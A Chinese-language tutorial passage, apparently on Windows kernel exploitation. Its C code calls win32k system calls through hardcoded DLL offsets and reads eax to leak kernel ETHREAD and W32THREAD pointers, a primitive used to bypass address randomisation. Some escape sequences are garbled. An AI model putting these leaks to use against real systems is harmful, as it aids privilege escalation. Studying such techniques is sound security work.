 然后，我们调用该函数并使用内联汇编来获取在eax中留下的值，并打印出来。

```
pNtUserGetAsyncKeyState(20);
unsigned int ethread = 0;
__asm {
    mov ethread, eax;
}
printf("NtUserGetAsyncKeyState ETHREAD partial disclosure: 0x%Xrn", ethread);
```



然后，我们对NtUserModifyUserStartupInfoFlags进行同样的处理。

```
lNtUserModifyUserStartupInfoFlags pNtUserModifyUserStartupInfoFlags = (lNtUserModifyUserStartupInfoFlags)((DWORD_PTR)hUser32 + 0x64D4B);
 
pNtUserModifyUserStartupInfoFlags(20, 12);
unsigned ethread_full = 0;
__asm {
    mov ethread_full, eax;
}
printf("NtUserModifyUserStartupInfoFlags ETHREAD full disclosure: 0x%Xrn", ethread_full);
```

接下来，我们需要调用暴露W32THREAD指针的函数，它们都是在gdi32.dll中定义的，所以我们需要得到该DLL的句柄，然后就可以像前面那样来调用这些函数了。



```
HMODULE hGDI32 = LoadLibraryA("gdi32.dll");
if (hGDI32 == NULL) {
    printf("Failed to load gdi32");
    return 1;
}
 
lNtGdiFONTOBJ_vGetInfo pNtGdiFONTOBJ_vGetInfo = (lNtGdiFONTOBJ_vGetInfo)((DWORD_PTR)hGDI32 + NtGdiFONTOBJ_vGetInfoAddress);
FONTOBJ surf = { 0 };
FONTINFO finfo = { 0 };
pNtGdiFONTOBJ_vGetInfo(&amp;surf, 123, &amp;finfo);
 
long int w32thread = 0;
__asm {
    mov w32thread, eax;
}
 
printf("NtGdiEngUnLockSurface W32THREAD full disclosure: 0x%Xrn", w32thread);
 
lNtGdiPATHOBJ_vEnumStartClipLines pNtGdiPATHOBJ_vEnumStartClipLines = (lNtGdiPATHOBJ_vEnumStartClipLines)((DWORD_PTR)hGDI32 + 0x47263);
PATHOBJ pathobj = { 0 };
CLIPOBJ pco = { 0 };
SURFOBJ pso = { 0 };
LINEATTRS pla = { 0 };
pNtGdiPATHOBJ_vEnumStartClipLines(&amp;pathobj, &amp;pco, &amp;pso, &amp;pla);
w32thread = 0;
__asm {
    mov w32thread, eax;
}
printf("NtGdiPATHOBJ_vEnumStartClipLines W32THREAD full disclosure: 0x%Xrn", w32thread);
```

